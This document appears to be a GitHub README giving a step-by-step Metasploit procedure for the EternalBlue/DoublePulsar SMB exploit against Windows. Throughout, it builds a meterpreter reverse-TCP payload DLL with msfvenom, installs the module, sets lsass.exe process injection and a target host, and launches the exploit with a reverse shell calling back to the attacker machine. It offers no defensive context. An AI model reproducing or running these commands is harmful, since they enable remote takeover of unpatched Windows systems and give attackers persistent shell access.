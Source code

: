 # Eternalblue-Doublepulsar-Metasploit

wine cmd.exe
exit

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.12.110 lport=4444 -f dll -o /root/.wine/drive_c/eternal11.dll

cd /usr/share/metasploit-framework/modules/exploits/windows/smb
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit
mv Eternalblue-Doublepulsar-Metasploit/deps/ eternalblue_doublepulsar.rb ./

service postgresql start
msfconsole
reload_all

use exploit/windows/smb/eternalblue_doublepulsar
set DOUBLEPULSARPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set ETERNALBLUEPATH /usr/share/metasploit-framework/modules/exploits/windows/smb/deps
set PROCESSINJECT lsass.exe
set TARGETARCHITECTURE  x64
set rhost 192.168.2.204
show targets
set target 8
set payload windows/x64/meterpreter/reverse_tcp
show options
set lhost 192.168.2.202

exploit



